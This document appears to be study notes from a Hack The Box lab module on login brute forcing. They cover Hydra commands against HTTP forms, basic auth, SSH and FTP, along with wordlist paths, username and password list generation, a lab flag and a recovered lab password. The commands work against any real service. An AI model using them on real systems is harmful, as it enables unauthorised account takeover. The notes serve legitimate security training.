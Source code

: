 # Login Brute Forcing  

# Pasword HASH Enumeration  

>Files that can contain hashed passwords for offline brute-forcing:  

| **Windows**   | **Linux**   |
| --------------|-------------------|
| unattend.xml | shadow |
| sysprep.inf | shadow.bak |
| SAM | password / passwd |

# Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists [Service Authentication Brute Forcing](https://academy.hackthebox.com/module/57/section/491) |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |
| `hydra -l b.gates -P william.txt ssh://83.136.251.221:53718` | Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. [](https://academy.hackthebox.com/module/57/section/491) |

# Wordlists

| **Lists**   | **Description**   |
| --------------|-------------------|
| `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist [Dictionary Attack - SecLists repo for wordlists](https://github.com/danielmiessler/SecLists) |
| `/usr/share/wordlists/rockyou.txt` | The most Common Passwords Wordlist |
| `/usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt` | The seclists Passwords in this Leaked-Databases file rockyou-10 contain 92 entries. |
| `/usr/share/seclists/Usernames/Names/names.txt` | Common Names Wordlist |

# Default Passwords  

>It is very common to find pairs of usernames and passwords used together, especially when default service passwords are kept unchanged.
>[Default Passwords - Login Brute Force](https://academy.hackthebox.com/module/57/section/498) POST Form:  

```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt -f 83.136.251.168 -s 52278 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```  

>[HYDRA - Brute Forcing Forms](https://academy.hackthebox.com/module/57/section/489)  
>[Username Brute Force](https://academy.hackthebox.com/module/57/section/487)  

![default-passwords HTB{bru73_f0rc1n6_15_4_l457_r350r7}](/images/default-passwords.png)  

>Above screenshot show using Burp Proxy to [Determine Login Parameters](https://academy.hackthebox.com/module/57/section/504)  

# Personalized Wordlists  

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist [Personalized Wordlists](https://academy.hackthebox.com/module/57/section/512) |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List [GITHUB Username Anarchy](https://github.com/urbanadventurer/username-anarchy) |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |
| `netstat -antp \| grep -i list` | Identify internal network services and their ports running on the local victim machine. |
| `scp -P 53718 ./william.txt b.gates@83.136.251.221:/tmp` | Use SCP with the obtain credentials for user `b.gates` and password `4dn1l3M!$` to copy the files to target. |
| `hydra -l m.gates -P /tmp/william.txt ftp://127.0.0.1` | Use `hydra` on the victim locally to identify password of user against internal FTP service. |
